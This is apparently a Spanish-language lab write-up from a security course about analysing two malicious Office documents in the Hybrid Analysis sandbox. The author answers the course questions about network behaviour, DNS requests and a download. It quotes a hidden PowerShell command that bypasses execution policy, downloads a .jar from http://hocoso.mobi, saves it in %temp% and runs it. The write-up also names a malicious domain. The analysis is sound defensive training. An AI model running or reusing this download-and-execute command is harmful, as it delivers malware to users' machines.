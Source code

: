 ## ¿Qué es una sandbox?
Una sandbox es un entorno virtual seguro donde se ejecutan archivos, aplicaciones o URL maliciosos. Voy a estar utilizando [Hybrid Analysis](https://www.hybrid-analysis.com/) para analizar los siguientes archivos: `PO-465514-180820.doc` y `Siparis_17.xls`.

- Primero subis el archivo:

![image](https://github.com/user-attachments/assets/3343f8ac-0d42-4028-bb5e-453073e56b78)

- Luego seleccionas el Sistema Operativo en el cual sea analizado. En mi caso elegi **Windows 10**:

  ![image](https://github.com/user-attachments/assets/6e1f42bf-d8b2-4d31-8465-4daa563744e2)

- Este seria el resultado:

  ![image](https://github.com/user-attachments/assets/5e7cbb00-8ba6-4a33-9688-ab52fe69877f)

- Para ver todas las acciones que hace el archivo malicioso tenemos que dirigirnos al apartado **Incident Response**.

  ![image](https://github.com/user-attachments/assets/e33eec8b-48d5-4d9d-bdb8-7ef833a606cf)

- **Persistence**: Tecnica utilizada para mantenerse en un sistema incluso despues de reinicios.
- **Fingerprint**: Recolectar información específica sobre un sistema, red o dispositivo.
- **Evasive**: Se utiliza para evitar la detección de antivirus, firewalls o sistemas de detección de intrusos (IDS).
- **Spyware**: Tipo de software malicioso diseñado para espiar las actividades del usuario sin su consentimiento.

En el apartado de **Network Behavior** se ven las direcciones IP que interactuaron con el archivo:

![image](https://github.com/user-attachments/assets/792c553c-6474-4b59-83eb-ea9fd82b6bbf)

Si entramos a la primera direccion IP, podemos ver mucha informacion, como los detalles del archivo, indicadores maliciosos, trafico HTTP, alertas de Suricata y mas...

![image](https://github.com/user-attachments/assets/a357c93a-b3ac-4872-b687-e9cc0161002b)

>- Indicadores maliciosos
>  
> ![image](https://github.com/user-attachments/assets/32d51644-bba6-4000-ab91-f20dc2f9c110)

>- Detalles del Archivo
>  
> ![image](https://github.com/user-attachments/assets/9ed6548e-31f8-4751-afc6-c7a44fb95456)


>- Trafico HTTP
>  
> ![image](https://github.com/user-attachments/assets/c6aad64b-be5c-4254-a01b-2baf0d6d7857)

>- Alertas de Suricata
>  
>  ![image](https://github.com/user-attachments/assets/3605cb46-399f-4a40-80ea-ddcd7e2e5e06)

>- Capturas de Pantalla sobre el archivo abierto
>  
> ![image](https://github.com/user-attachments/assets/f65a3d1e-ea53-4de6-bb73-cdc2edbd52f9)
> ![image](https://github.com/user-attachments/assets/16a6af6e-4d67-4ea9-bf7a-6ec1063eb371)


---


**The file PO-465514-180820.doc is trying to make a request to a domain ending with ".kz". What is this domain?**

En el apartado de **Network Behavior** se ve la conexion que hace con el dominio `www.msbc.kz`.

![image](https://github.com/user-attachments/assets/d2a619a3-b367-4093-83bf-440e08d98b82)

---

**With which Windows tool are the connection requests made? (file:PO-465514-180820.doc)**

Con la herramienta `powershell.exe`.

![image](https://github.com/user-attachments/assets/06140ab1-949a-4fb5-9036-f398e4675876)

---

**How many addresses does the file send DNS requests to? (file:PO-465514-180820.doc)**

`5`

---

**The "Siparis_17.xls" malware document is trying to download a file. With what name does he want to save the file it is trying to download to the device?**

Al analizar el archivo me encontre con un comando muy sospechoso de powershell, el cual era el siguiente:


```
/c powershell -executionpolicy bypass -W Hidden -command "& { (new-object System.Net.WebClient).DownloadFile(\"http://hocoso.mobi\" ,\" %temp%\\6LeGwKmrm.jar\") }" & %temp%\\6LeGwKmrm.jar
```



## Codigo explicado

>```(new-object System.Net.WebClient).DownloadFile:```
>
>- Crea un objeto de tipo WebClient para realizar descargas desde una URL.

> ```DownloadFile("http://hocoso.mobi", "%TEMP%\\6LeGwKmrm.jar"):```
>- Descarga un archivo desde la URL http://hocoso.mobi.

Y por ultimo guarda el archivo descargado en la carpeta temporal del sistema (%TEMP%) con el nombre `6LeGwKmrm.jar`.

Por lo que la respuesta es: `6LeGwKmrm.jar`.

---
### Al finalizar con el ultimo reto del curso me dieron la siguiente certificacion:

![Screenshot From 2025-01-18 19-08-41](https://github.com/user-attachments/assets/272dfc67-11c6-470d-bc43-44a67f5b4bee)


Espero que hayan aprendido mucho de este Writeup, se vienen mas!









